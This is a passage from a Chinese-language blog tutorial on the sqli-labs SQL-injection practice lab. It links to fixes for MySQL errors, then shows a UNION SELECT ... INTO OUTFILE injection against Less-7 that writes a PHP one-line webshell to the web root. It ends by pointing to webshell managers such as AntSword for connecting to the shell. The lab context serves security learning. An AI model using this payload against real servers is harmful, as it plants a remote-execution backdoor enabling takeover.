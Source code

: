 
<h4>问题二：</h4>
[sqli-labs靶场无法写入问题解决“ it cannot execute this statement”和“You have an error in your SQL syntax”<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/123051084?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/123051084?spm=1001.2014.3001.5501)
<h4>问题三：</h4>
[MySQL出现“Lost connection to MySQL server during query”问题分析与解决<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/123053586?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/123053586?spm=1001.2014.3001.5501)
<h4>问题四：</h4>
[解决“ERROR : (2006, ‘MySQL server has gone away”“Lost connection to MySQL server during query”错误方法<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/123056148?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/123056148?spm=1001.2014.3001.5501)



#### 问题二：

#### 问题四：

> 
<h3>2.3、使用过程：</h3>
<h4>第一步：写入文件</h4>
写入一句话木马
虽然还是报错，但是在目录下，是已经写入进去的
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=1')) union select 1,'&lt;?php eval($_REQUEST[123]); ?&gt;',3 into outfile 'D://BaiduNetdiskDownload/phpstudy/phpstudy_pro/WWW/sqli-labs-master/1.php' --+








<hr/>
<h4>第二步：使用菜刀、蚁剑、冰蝎等工具进行连接</h4>
连接是需要知道文件路径
所以写入的的时候需要指定路径的
<hr/>
**下载、使用：**
[【WAF绕过-权限控制工具】菜刀、蚁剑、冰蝎 下载、使用方法https://blog.csdn.net/qq_53079406/article/details/124871969?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165389617516781685342067%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165389617516781685342067&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124871969-null-null.nonecase&amp;utm_term=%E8%8F%9C%E5%88%80&amp;spm=1018.2226.3001.4450<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/124871969?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165389617516781685342067%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165389617516781685342067&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124871969-null-null.nonecase&amp;utm_term=%E8%8F%9C%E5%88%80&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/124871969?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165389617516781685342067%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165389617516781685342067&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124871969-null-null.nonecase&amp;utm_term=%E8%8F%9C%E5%88%80&amp;spm=1018.2226.3001.4450)

此处以蚁剑为例
添加数据 









#### 第二步：使用菜刀、蚁剑、冰蝎等工具进行连接

---

